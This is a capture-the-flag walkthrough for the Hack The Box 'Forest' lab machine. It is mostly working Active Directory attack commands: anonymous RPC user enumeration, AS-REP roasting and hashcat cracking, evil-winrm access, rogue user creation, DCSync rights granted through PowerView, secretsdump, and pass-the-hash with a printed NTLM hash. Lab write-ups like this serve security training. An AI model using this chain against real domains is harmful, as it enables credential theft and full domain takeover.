 # [Forest](https://app.hackthebox.com/machines/forest)

```bash
nmap -p- -sT --min-rate 10000 10.10.10.161 -Pn 
```

![Alt text](img/image.png)

After finding open ports(53,88,135,139,389,445), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,135,139,445 10.10.10.161 -Pn
```

![Alt text](img/image-1.png)

I also scanned UDP ports for my target.

```bash
nmap -p- -sU --min-rate 10000 10.10.10.161 -Pn 
```

![Alt text](img/image-2.png)


Let's try to access RPC.
```bash
rpcclient -U "" -N 10.10.10.161
```

We got usernames from here by typing `enumdomusers` on rpc terminal.

![Alt text](img/image-3.png)


I write usernames into 'users' txt file.

![Alt text](img/image-4.png)

From port (88), we see that it is 'Domain Controller', that's why let's start attacks.

Firstly, we check 'GetNPUsers.py' file to know AS-Rep Roasting attack.

```bash
for user in $(cat users); do python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} ; done 
```

![Alt text](img/image-5.png)


Let's crack password hash of 'svc-alfresco' user.

```bash
hashcat -m 18200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-6.png)


Now, we have below credentials.

svc-alfresco:s3rvice


We can access machine via `evil-winrm` tool.

```bash
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

user.txt

![Alt text](img/image-7.png)



Now, I check DC Sync attack via this credentials that may be have 'Replication' Permisson which assigned to Admins as default.


Let's check this via `Get-Acl` command.

![Alt text](img/image-8.png)

For more enumeration, let's use `bloodhound`.

```bash
bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161
```

![Alt text](img/image-9.png)

![Alt text](img/image-10.png)


Let's upload our *.json data into `bloodhound`.

```bash
neo4j start  #first open console
bloodhound  # second write creds.
```

Then ,we see that our user 'svc-alfresco' have '**WriteDACL**' privilege.

![Alt text](img/image-11.png)


Let's add user via **Replication** privileges and add this user to AD group where we have '**WriteDACL**' privileges.

```bash
net user dr4ks dr4ks123! /add /domain
net group "Exchange Windows Permissions" dr4ks /add
net localgroup "Remote Management Users" dr4ks /add
```

![Alt text](img/image-12.png)


Let's download [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) to give '**Replication**' privileges to our 'dr4ks' user.

```bash
upload PowerView.ps1
```

![Alt text](img/image-13.png)

We execute our malicious PowerView script.
```bash
Import-Module .\PowerView.ps1
```

![Alt text](img/image-14.png)

Then, we do below commands.
```bash
$pass=convertto-securestring "dr4ks123!" -asplain -force
$cred=new-object system.management.automation.pscredential('htb\dr4ks',$pass)
Add-ObjectACL -PrincipalIdentity dr4ks -Credential $cred -Rights DCSync
```


Now, 'dr4ks' user is target for us to do **'DCSync attack'**

Let's do it via `secretsdump.py` script of Impacket.

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py dr4ks:'dr4ks123!'@10.10.10.161
```

![Alt text](img/image-15.png)

Let's grab NTLM hash of 'Administrator'.

Administrator: 32693b11e6aa90eb43d32c72a07ceea6

Let's get a shell via `Pass-The-Hash` attack in which, we login to account without knowing password of account.

```bash
evil-winrm -u administrator -H '32693b11e6aa90eb43d32c72a07ceea6' -i 10.10.10.161
```

![Alt text](img/image-16.png)


root.txt

![Alt text](img/image-17.png)